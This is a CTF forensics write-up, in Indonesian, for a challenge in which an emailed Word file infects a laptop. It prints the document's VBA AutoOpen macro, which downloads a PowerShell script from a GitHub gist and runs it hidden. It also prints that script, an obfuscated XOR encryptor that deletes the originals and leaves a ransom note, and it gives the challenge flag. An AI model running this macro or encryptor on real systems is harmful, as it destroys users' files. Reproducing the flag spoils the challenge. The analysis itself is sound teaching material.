

# Got Hacked

Author: daffainfo

Category: Forensic

Flag: `HCS{h4T1_H4ti_d3n94N_M4lw4R3_y4a4A!!!}`

## Description
"Barusan saja aku membuka file yang dikirimkan melalui email dari seseorang bernama ""Budi"" dan tiba-tiba semua file yang ada didalam laptopku ini diencrypt :(. Bisakah kalian membantuku mengembalikan file-file yang ada didalam laptopku agar bisa dibaca kembali?

* Disarankan untuk membuka file dengan menggunakan virtual machine karena mengandung malware"

## Difficulty
Advanced

## Solution
Diberikan 2 files, file `eml` dan file zip yang berisikan folder yang terencrypt oleh si malware. Dan objective kita adalah mengembalikan folder yang telah terencrypt dengan melakukan digital forensic pada email yang telah diberikan.


Didalam email, terdapat file word yang jika dibuka akan sepert ini


Namun, disaat membuka file word ini, terdapat VBScript yang bisa dicek dengan mencari fitur Visual Basic Editor pada word



Dan terdapat 1 script seperti code dibawah

```vb
Sub AutoOpen()
    Dim Shell As Object
    Dim ScriptURL As String
    Dim ScriptPath As String

    ScriptURL = "https://gist.githubusercontent.com/daffainfo/b8c959c4247d1fbc0cb27747a24dce0c/raw/93be1336229351f553411c38ccb40d558460bccb/gistfile1.txt"
    
    ScriptPath = ThisDocument.Path & "\malw.ps1"
    
    Set Shell = CreateObject("WScript.Shell")
    
    Shell.Run "powershell.exe -Command (New-Object Net.WebClient).DownloadFile('" & ScriptURL & "', '" & ScriptPath & "')", 0, True
    Shell.Run "powershell.exe -ExecutionPolicy Bypass -File " & ScriptPath, 0, True
End Sub
```

Jika dicek, ternyata word ini mengandung Powershell command dimana akan mendownload sebuah script dari gist.github.com dan kemudian dieksekusi. Mari kita cek script tersebut

```powershell
$lGhnUCTt99 = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("SGFDZUVzMjAyM0NURiwgQXBha2FoIEd1ZD8="))
function F3l2dps1d($data, $key) {
    $fXYmtqvh99 = [byte[]]::new($data.Length)
    for ($i = 0; $i -lt $data.Length; $i++) {
        $fXYmtqvh99[$i] = $data[$i] -bxor $key[$i % $key.Length]
    }
    return $fXYmtqvh99
}
$OjebbJTq99 = Get-ChildItem -Path . -File
foreach ($vHUqJkXm99 in $OjebbJTq99) {
    $xQqwaDUK99 = $vHUqJkXm99.FullName
    $dkBQeHFf99 = [System.IO.File]::ReadAllBytes($xQqwaDUK99)

    $fXYmtqvh99 = F3l2dps1d $dkBQeHFf99 $lGhnUCTt99

    $CtCAvudW99 = $xQqwaDUK99 + ".enc"
    [System.IO.File]::WriteAllBytes($CtCAvudW99, $fXYmtqvh99)

    Remove-Item $xQqwaDUK99

    $CeKitjMn99 = [System.IO.Path]::Combine((Get-Location).Path, "read_this.txt")
    [System.IO.File]::WriteAllText($CeKitjMn99, "Your files has been encrypted!!!, Send me 10000 BTC to unlock your files")
}
```

Ini adalah Powershell script yang diobfuscate yang dimana akan menjalankan fungsi xor pada semua file yang berada dalam 1 direktori dengan file ini, dan kemudian menambahkan ekstensi `.enc` pada setiap file dan melakukan dropping file bernama `read_this.txt`

Kunci untuk melakukan enkripsi dengan XOR bisa dilihat pada baris pertama, terdapat kunci yang diencode menggunakan `base64` encoding


Jika didecode, kunci untuk melakukan decrypt adalah `HaCeEs2023CTF, Apakah Gud?`. Karena sudah tahu file-file tersebut diencrypt menggunakan fungsi XOR dan juga kita sudah mengetahui kuncinya. Maka yang dilakukan selanjutnya adalah melakukan decrypt pada file `flag.zip.enc`

